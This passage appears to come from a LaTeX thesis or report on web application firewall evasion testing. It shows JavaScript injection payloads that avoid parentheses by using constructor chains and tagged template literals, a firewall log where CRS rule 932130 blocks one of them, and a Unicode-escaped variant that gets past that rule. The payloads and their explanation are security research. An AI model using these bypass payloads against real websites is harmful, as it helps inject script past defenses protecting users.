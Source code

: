 \begin{lstlisting}[style=basicStyle]
[]['constructor']['constructor']('var s = "secret";promp' + 't("something", s)')()
\end{lstlisting}

\subsubsection{Avoiding ()}
In the context of testing firewall evasion techniques, the author faced the question if it was possible to create payloads without  \verb|()|. Those payloads need to be valid and bypass the waf. 
Considering the bypassing payload from \ref{sec:funconstrconbypass}, opening and closing \verb|()| can be substituted with Tagged Template Literals. This causes another firewall rule to trigger:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=avoiding () blocked, label={lst:avoiding () blocked}]
<payload>[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something${s}`'}```</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${s}`}"</MatchedData>
\end{lstlisting}

Evading rule \verb|932130| is possible by using a form of unicode escaping in JavaScript that was introduced with ES6 and differs from the unicode escaping in JSON. The character sequence \verb|${s} was replaced with \verb|\u{0024}{s}|. The bypassing payload:

\begin{lstlisting}[style=basicStyle]
[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```
\end{lstlisting}

It is conspicuous that the payload can bypass the firewall with only one \verb|$| of the placeholders \verb|${expression}| escaped.
This seems to be a bug in the WAF or the ruleset.
It is also what enables the above payload to be valid.
A substitution of the earlier \verb|$| with an escaped variant is not possible.
JavaScript does not recognize the placeholder in the Template Literal without the explicit character \verb|$|.
Substitution of the second placeholder is possible because it happens inside a string containing the Tagged Template Literal.

